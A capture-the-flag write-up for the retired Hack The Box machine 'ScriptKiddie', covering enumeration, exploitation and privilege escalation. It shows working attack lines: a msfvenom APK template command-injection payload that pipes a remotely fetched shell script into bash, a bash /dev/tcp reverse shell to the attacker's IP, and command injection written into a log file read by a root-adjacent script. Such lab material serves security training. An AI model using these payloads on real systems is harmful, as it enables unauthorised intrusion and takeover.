


# ScriptKiddie

This is the write-up for the box ScriptKiddie that got retired at the 5th June 2021.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.226    scriptkiddie.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/scriptkiddie.nmap 10.10.10.226
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5000)

The webpage on port 5000 has the title _"k1d'5 h4ck3r t00l5"_ and hosts some hacking tools:



It uses **Nmap**, **Msfvenom** and **Searchsploit** in the background.
After testing for web vulnerabilities in all tools, it may possible to exploit a publicly known vulnerability in **Msfvenom** as it is possible to upload a template file:
```
searchsploit msfvenom

Metasploit Framework 6.0.11 - msfvenom APK template command injection
```

Changing the payload in the script to a reverse shell command:
```python
# Change me
payload = 'curl 10.10.14.9:8000/shell.sh | bash'
# (...)
```

Executing the script to create a malicious APK file:
```
python3 49491.py
```
```
[+] Done! apkfile is at /tmp/tmpzxxkai7n/evil.apk
Do: msfvenom -x /tmp/tmpzxxkai7n/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Creating the shell script that will be executed from the **Msfvenom template**:
```
bash -i >& /dev/tcp/10.10.14.9/9001 0>&1
```

Uploading the APK file with the feature on the website:



After _generating_ the payload, it will download _shell.sh_ to execute it and the listener on my IP and port 9001 starts a reverse shell as the user _kid_.

## Privilege Escalation

In the home directory of _kid_ is a file called _/home/kid/logs/hackers_ with no contents.
This file is used on the web application in _/home/kid/html/app.py_ in the _searchsploit_ function:
```python
# (...)
def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")
# (...)
```

It gets an entry, when the **Searchsploit** feature does not contain any alphanumeric characters:
```
regex_alphanum = re.compile(r'^[A-Za-z0-9 \.]+$')
```

Sending special characters to the **Searchsploit** feature while checking the file with `tail -f`:
```
tail -f logs/hackers

[2022-04-24 15:10:32.866897] 10.10.14.9
tail: ../logs/hackers: file truncated
```

The file gets truncated after the entry, so lets check why this happens with [psyp](https://github.com/DominicBreuker/pspy):
```
wget 10.10.14.9:8000/pspy64s
chmod +x pspy64s

./pspy64s
```

After sending special characters, it spawns processes that execute _/home/pwn/scanlosers.sh_ and does a port scan on our client:
```
CMD: UID=1001 PID=10768  | /bin/bash /home/pwn/scanlosers.sh
CMD: UID=1001 PID=10775  | sh -c nmap --top-ports 10 -oN recon/10.10.14.9.nmap 10.10.14.9 2>&1 >/dev/null
```

This user has read permissions for the bash script _/home/pwn/scanlosers.sh_:
```bash
log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

The script reads the _hackers_ file and `cuts` out everything before the third field which is the IP address.

Testing command injection on the third field with a `curl` command:
```
echo 'abc def ;curl 10.10.14.9:9001 #' >> logs/hackers
```

The listener on my IP and port 9001 gets a response back, so the command injection works and the reverse shell script can be used:
```
echo 'abc def ;curl 10.10.14.9:8000/shell.sh | bash #' >> logs/hackers
```

After sending the command, it will execute _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as the user _pwn_.

### Privilege Escalation to root

The user _pwn_ is able to run **Msfconsole** with root permissions:
```
sudo -l

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Starting the **Metasploit Console**:
```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

It is possible to run local commands from `msfconsole` with the executed privileges:
```
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# whoami
root
```

The command `bash` will start a shell as root!
